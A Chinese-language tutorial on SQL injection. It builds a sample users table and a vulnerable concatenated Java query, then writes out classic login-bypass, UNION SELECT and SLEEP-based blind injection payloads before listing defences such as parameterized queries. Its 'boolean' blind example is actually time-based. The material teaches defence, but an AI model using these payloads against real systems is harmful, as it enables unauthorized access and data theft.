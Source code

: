 ### **SQL 注入示例**

SQL 注入（SQL Injection）是一种通过在用户输入的 SQL 语句中插入恶意代码，从而篡改数据库查询逻辑的攻击方式。下面我们设计一个 SQL 注入的具体案例，包括表结构、查询语句和注入方式。

------

## **1. 设计数据库表**

假设我们有一个 `users` 表，用于存储用户登录信息：

```
CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(50) NOT NULL
);
```

表中的数据：

```
INSERT INTO users (username, password) VALUES ('admin', '123456');
INSERT INTO users (username, password) VALUES ('user', 'password123');
```

------

## **2. 存在 SQL 注入的代码**

如果后端代码直接拼接 SQL 语句，而不使用 **参数化查询**，就可能导致 SQL 注入。例如：

```
String userInput = "admin' OR '1'='1";  // 攻击者输入
String sql = "SELECT * FROM users WHERE username = '" + userInput + "' AND password = '" + password + "'";
```

如果 `password` 也是随意输入的，比如 `"abc"`，最终 SQL 变成：

```
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'abc';
```

由于 **'1'='1'** 恒成立，该查询就变成：

```
SELECT * FROM users WHERE username = 'admin' OR TRUE;
```

这样，攻击者无需知道密码，就可以绕过认证，成功登录。

------

## **3. 其他 SQL 注入案例**

### **（1） 注入 OR 1=1 绕过登录**

攻击者在用户名输入框中输入：

```
admin' OR '1'='1' --
```

最终 SQL 变成：

```
SELECT * FROM users WHERE username = 'admin' OR '1'='1' -- ' AND password = 'xxxx';
```

由于 `--` 是 SQL 的**注释符**，后面的 `AND password = 'xxxx'` 被忽略，直接返回所有用户信息，成功登录。

### **（2） 使用 UNION SELECT 窃取数据库信息**

如果 SQL 语句是：

```
SELECT username, password FROM users WHERE username = 'input';
```

攻击者输入：

```
' UNION SELECT database(), user() --
```

最终 SQL 变成：

```
SELECT username, password FROM users WHERE username = '' UNION SELECT database(), user() --';
```

这将返回数据库名和数据库用户信息。

### **（3） 盲注（布尔型）**

如果应用不显示查询结果，而是仅返回 **登录成功** 或 **失败**，攻击者可以通过 **二分法测试字符**：

```
' AND IF(SUBSTRING((SELECT database()),1,1)='a', SLEEP(5), 1) --
```

如果数据库名的第一个字符是 `a`，服务器会 **延迟 5 秒**，否则不会延迟。通过不断测试不同字符，可以逐个猜出数据库名称。

------

## **4. 如何防止 SQL 注入？**

### **✅ 1. 使用参数化查询（PreparedStatement）**

```
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE username = ? AND password = ?");
stmt.setString(1, username);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

### **✅ 2. 过滤用户输入**

- **拒绝拼接 SQL 语句**，避免用户输入影响 SQL 逻辑。
- **转义特殊字符**，如 `'`、`--`、`;` 等。

### **✅ 3. 使用最低权限账户**

- **限制数据库用户权限**，防止 `DROP TABLE`、`UPDATE`、`DELETE` 等操作。

### **✅ 4. 使用 Web 应用防火墙（WAF）**

- 通过 **WAF（Web Application Firewall）** 过滤 SQL 注入攻击。

------

## **5. 总结**

SQL 注入主要是由于 **拼接 SQL 语句** 造成的，攻击者可以利用它来 **绕过身份验证、窃取数据，甚至破坏数据库**。最有效的防范方法是 **使用参数化查询**，避免直接拼接用户输入到 SQL 语句中。